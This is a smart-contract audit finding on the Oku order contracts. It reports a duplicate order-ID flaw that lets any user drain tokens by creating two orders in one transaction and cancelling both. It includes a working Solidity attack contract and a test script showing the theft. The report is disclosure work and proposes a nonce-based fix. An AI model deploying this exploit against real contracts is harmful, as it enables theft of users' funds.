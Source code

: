 Delightful Indigo Python

High

# Flawed order id generating algorithm leaves possibility to steal funds

### Summary

Function `AutomationMaster.generateOrderId()`, used for giving different ids to created orders in all three order contracts, can provide duplicates, leaving possibility to steal contract funds by any user.

### Root Cause

[https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/AutomationMaster.sol#L92](url)

Only `sender` address and `block.timestamp` is used to generate new `orderId`. If two orders are created in the same block and by the same sender, they will have the same `orderId`.

### Internal pre-conditions

There should be some token funds in any of the order contracts (`Bracket.sol`, `StopLimit.sol`, `OracleLess.sol`)

### External pre-conditions

No specific preconditions

### Attack Path

1. Attacker creates malicious contract `DupeIdAttack` (provided in PoC).
2. Attacker funds `DupeIdAttack` with `amount1 + amount2` of `tokenIn`.
3. Attacker calls `execute` function with `amount1` being low and `amount2` being high, `tokenIn` is token do drain balance of order contract, and `tokenOut` can be same.
4. `DupeIdAttack` creates two orders in the same transaction. Second order overwrites first, increasing `amountIn` to `amount2` (initially it was small `amount1`). `DupeIdAttack` transfers  `amount1 + amount2` of token to order contract.
5. `DupeIdAttack` cancels both orders in the same transaction.  `amount2 + amount2` of `tokenIn` is withdrawn to attacker contract, which is more than initial transfer on creation.

### Impact

Described attack steals `amount2 - amount1` of funds from the order contract (any of `Bracket.sol`, `StopLimit.sol`, `OracleLess.sol`) contracts. The number of orders can be 3 and more, potentially leading to draining contract funds.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./IAutomation.sol";
import "./Bracket.sol";
import "../interfaces/openzeppelin/IERC20.sol";
import "../interfaces/openzeppelin/SafeERC20.sol";

contract DupeIdAttack {

    function execute(
        Bracket bracket, 
        uint amountIn1, 
        uint amountIn2, 
        IERC20 tokenIn, 
        IERC20 tokenOut
    ) external {
        tokenIn.approve(address(bracket), amountIn1 + amountIn2);

        bracket.createOrder(
            "", 
            type(uint).max,
            0,
            amountIn1, 
            tokenIn, 
            tokenOut, 
            address(this), 
            0, 
            0, 
            0, 
            false, 
            "");

        bracket.createOrder(
            "", 
            type(uint).max,
            0,
            amountIn2,
            tokenIn, 
            tokenOut, 
            address(this), 
            0, 
            0, 
            0, 
            false, 
            "");

        uint96[] memory orderIds = bracket.getPendingOrders();
        uint96 orderId = orderIds[orderIds.length - 1];

        bracket.cancelOrder(orderId);
        bracket.cancelOrder(orderId);
    }
}
```

Script:

```typescript
it("Dupe id attack", async () => {
        await stealMoney(s.wethWhale, await s.Bracket.getAddress(), await s.WETH.getAddress(), parseEther("1.5"))
        const attackContract = await DeployContract(new DupeIdAttack__factory(s.Bob), s.Bob) as DupeIdAttack;

        await stealMoney(s.wethWhale, await attackContract.getAddress(), await s.WETH.getAddress(), parseEther("0.7"))

        console.log(formatEther(await s.WETH.balanceOf(await attackContract.getAddress()))); // 0.7 ETH
        console.log(formatEther(await s.WETH.balanceOf(await s.Bracket.getAddress()))); // 1.5 ETH

        const tx = await attackContract.execute(
            await s.Bracket.getAddress(),
            parseEther("0.1"), 
            parseEther("0.5"), 
            await s.WETH.getAddress(),
            await s.WETH.getAddress());

        await tx.wait();
        
        console.log(formatEther(await s.WETH.balanceOf(await attackContract.getAddress()))); // 1.1 ETH
        console.log(formatEther(await s.WETH.balanceOf(await s.Bracket.getAddress()))); // 1.1 ETH
    })
```

### Mitigation

Using incremental nonce is most common anti-duplicate technique